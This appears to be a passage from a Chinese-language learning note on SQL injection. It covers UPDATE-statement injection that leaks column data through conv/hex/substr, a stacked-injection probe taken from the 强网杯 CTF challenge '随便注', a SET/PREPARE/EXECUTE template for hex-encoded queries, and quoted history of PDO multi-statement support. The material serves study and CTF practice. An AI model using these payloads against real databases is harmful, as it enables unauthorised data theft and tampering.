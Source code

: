```sql
    col_name = value

assignment_list:
    assignment [, assignment] ...
```

关于`insert`和`update`语句没有什么深入的理解, 也无法做出什么总结. 一般来说注入的点在`value`值里面.

知道的这方面的sql注入语句
```sql
单表的sql注入,获取本表的内容:
update users set username = 'j7ur8'| conv(hex(substr((select username from (select * from users where id=1) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id=1;
update users set username = '0'| conv(hex(substr((select username from (select * from users where id=1) as x limit 0,1 ) ,1 + (1-1) * 8, 8 * 1)),16, 10) where id=1;
```

# 堆叠注入
碰到过的实际案例是强网杯的`随便注`这道题目。题目过滤了select，所以基本以上所有的查询都不可行了，因此考虑了堆叠注入。
探测的语句：
```sql
1';show tables;#
#给了tables的回显就说明存在
```
据说堆叠注入是不会给回显的，但是当时这道题目提示的是开发与渗透同样重要....可能是开发做的有问题吧。

堆叠注入的基本语句
```sql
sEt @x=0x??????;
prEpare a from @x;
execute a;
```

## 堆叠注入的历史
以下为phith0n师傅在小密圈中的原话

> 那么PDO就一定能多句执行吗？  
> 在历史上的确是这样，2014年以前PHP底层将CLIENT_MULTI_STATEMENTS写死在源码里，有了这个flag，PDO Mysql客户端就是支持多句执行的，所以当时是无法在PHP层面禁用这个选项的。
> 但这个PR https://github.com/php/php-src/pull/896/files 修改了这一点，在PHP层面为PDO Mysql增加了一个新的属性PDO::MYSQL_ATTR_MULTI_STATEMENTS，你可以明确指定true或false，来选择是否启动多句执行。

> 默认情况下，这个选项的值是true，也就是默认支持多句执行。
